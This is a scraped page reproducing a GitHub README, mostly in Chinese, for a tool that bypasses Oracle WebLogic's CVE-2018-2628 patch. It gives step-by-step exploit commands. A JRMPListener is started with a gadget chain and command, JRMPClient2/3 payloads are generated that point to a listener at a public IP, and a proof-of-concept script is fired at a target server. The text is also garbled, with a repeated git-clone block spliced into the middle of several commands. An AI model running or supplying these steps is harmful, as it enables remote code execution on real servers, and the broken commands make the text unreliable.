 # ysoserial-cve-2018-2628

Some codes for bypassing Oracle WebLogic CVE-2018-2628 patch

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tdy218](https://github.com/tdy218) |
| Url      | [https://github.com/tdy218/ysoserial-cve-2018-2628](https://github.com/tdy218/ysoserial-cve-2018-2628)                                               |
| Stars    | 108                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2018-2628* weblogic* ysoserial

</details>

## Readme

# ysoserial-cve-2018-2628 
### 0x1. 准备工作  
- **准备好POC脚本及Payload Object生成、JRMPListener运行所需软件环境**  
Python 2.7.x  
Oracle Java SE 1.7+ 
- **准备好一套安装好Patch Set Update 180417补丁的WebLogic Server 10.3.6环境（仅有AdminServer即可）**  
如果有现成的、已经安装好这个PSU版本的WebLogic环境，则可跳过这一步。
- **准备好POC工具**  
从本项目里下载POC脚本（wls-cve-2018-2628-poc.py）  
从本项目[**release**](https://github.com/tdy218/ysoserial-cve-2018-2628/releases)页面下载Payload Object生成、JRMPListener程序的jar包文件（ysoserial-\<version\>-cve-2018-2628-all.jar）

### 0x2. 运行JRMPListener  
命令格式:    
> java -cp ysoserial-\<version\>-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener \<listen port\> \<gadget class\> \<command\>  

例如:   
> java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 22801 Jdk7u21 "calc.exe"  

当看到 ***Opening JRMP listener on 22801** 输出时, 记录JRMPListener所在主机的IP地址（示例为运行在一台公网IP为47.94.158.125的阿里云ECS主机上）和指定的端口。

### 0x3. 根据上一步JRMPListener所在主机的IP地址和监听端口信息, 生成Payload字符串  
目前已知两种方法（生成Payload Object String时，下面两种方法二选一即可）:   
- **利用java.rmi.activation.Activator\[CVE-2017-3248\]**

生成Payload Object String命令格式:  
> java -jar ysoserial-\<version\>-cve-2018-2628-all.jar JRMPClient2 \<JRMPListener IP\>:\<JRMPListener Port\> | xxd -p | tr -d 


## Get the content

```
git clone https://github.com/tdy218/ysoserial-cve-2018-2628
cd ysoserial-cve-2018-2628
```

{% embed url="https://github.com/tdy218/ysoserial-cve-2018-2628" %}

<figure><img src="https://avatars.githubusercontent.com/u/4214030?v=4" alt=""><figcaption><p>tdy218</p></figcaption></figure>
\n' && echo    

例如:    
> java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient2 47.94.158.125:22801 | xxd -p | tr -d 


## Get the content

```
git clone https://github.com/tdy218/ysoserial-cve-2018-2628
cd ysoserial-cve-2018-2628
```

{% embed url="https://github.com/tdy218/ysoserial-cve-2018-2628" %}

<figure><img src="https://avatars.githubusercontent.com/u/4214030?v=4" alt=""><figcaption><p>tdy218</p></figcaption></figure>
\n' && echo   

样例（用JRMPClient2生成的Payload对象二进制输出数据）:  
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/JRMPClient2_XXD.png)
- **利用weblogic.jms.common.StreamMessageImpl封装java.rmi.registry.Registry** 

生成Payload Object String命令格式:  
> java -jar ysoserial-\<version\>-cve-2018-2628-all.jar JRMPClient3 \<JRMPListener IP\>:\<JRMPListener Port\> | xxd -p | tr -d 


## Get the content

```
git clone https://github.com/tdy218/ysoserial-cve-2018-2628
cd ysoserial-cve-2018-2628
```

{% embed url="https://github.com/tdy218/ysoserial-cve-2018-2628" %}

<figure><img src="https://avatars.githubusercontent.com/u/4214030?v=4" alt=""><figcaption><p>tdy218</p></figcaption></figure>
\n' && echo

例如:   
> java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient3 47.94.158.125:22801 | xxd -p | tr -d 


## Get the content

```
git clone https://github.com/tdy218/ysoserial-cve-2018-2628
cd ysoserial-cve-2018-2628
```

{% embed url="https://github.com/tdy218/ysoserial-cve-2018-2628" %}

<figure><img src="https://avatars.githubusercontent.com/u/4214030?v=4" alt=""><figcaption><p>tdy218</p></figcaption></figure>
\n' && echo  

样例（用JRMPClient3生成的Payload对象二进制输出数据）: 
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/JRMPClient3_XXD.png)

### 0x4. 编辑并运行POC脚本  
编辑wls-cve-2018-2628-poc.py, 用上一步生成的hex字符串替换脚本顶部名为payload_str变量的变量值(此脚本中自带的两个payload_str变量的变量值都可以直接利用, 分别对应上面两种方法生成的hex string).

命令格式:  
> python wls-cve-2018-2628-poc.py <目标WebLogic Server实例监听IP> <目标WebLogic Server实例监听端口>   

例如:  
> python wls-cve-2018-2628-poc.py 192.168.64.83 7001  

样例（已安装了Patch Set Update 180417）:  
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/weblogic-version-applied-psu.png)  
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/weblogic-version-applied-psu-poc.png)

### 0x5. 鸣谢  
xxlegend@nsfocus（CVE-2018-2628的漏洞发现和提交者之一，揭示漏洞利用方式及相关代码示例）    
badcode@knownsec（提供weblogic.jms.common.StreamMessageImpl封装java.rmi.registry.Registry的代码示例）   
[ysoserial project](https://github.com/brianwrf/ysoserial)（汇总了许多Java反序列化利用程序）



## Get the content

```
git clone https://github.com/tdy218/ysoserial-cve-2018-2628
cd ysoserial-cve-2018-2628
```

{% embed url="https://github.com/tdy218/ysoserial-cve-2018-2628" %}

<figure><img src="https://avatars.githubusercontent.com/u/4214030?v=4" alt=""><figcaption><p>tdy218</p></figcaption></figure>
